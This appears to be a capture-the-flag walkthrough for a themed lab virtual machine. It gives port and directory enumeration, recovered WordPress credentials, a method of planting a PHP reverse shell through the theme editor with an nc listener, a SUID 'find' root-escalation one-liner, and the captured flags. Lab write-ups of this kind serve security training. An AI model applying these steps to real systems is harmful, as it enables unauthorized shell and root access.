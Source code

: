 <pre>
Enum Open port:
    80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
|_http-server-header: Apache/2.4.46 (Ubuntu)
|_http-title: Draco:dG9vIGVhc3kgbm8/IFBvdHRlcg==
MAC Address: 08:00:27:8A:AB:C5 (Oracle VirtualBox virtual NIC)

Enum 80 port:
    /.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/log (Status: 200) => pass:OjppbGlrZXNvY2tz => ::ilikesocks
/phpinfo.php (Status: 200)
/server-status (Status: 403)


Reverse shell:
    Login in http://192.168.1.32/DiagonAlley/wp-login.php/
        draco:slytherin

    Go to Edit themes < Theme editor and go to index.php
        Replace the code with a php reverse shell 
        Go to your attack box and make a nc listener and got reverse shell!



Priv Esc:
    Enum with linpeas.sh:
        Critical exploit:
            /bin/find
    Exploit: SUID

        $ find . -exec /bin/sh -p \; -quit
        # id
        uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)


User Flag: flag1{28327a4964cb391d74111a185a5047ad}
Root Flag: root{63a9f0ea7bb98050796b649e85481845!!}
</pre>
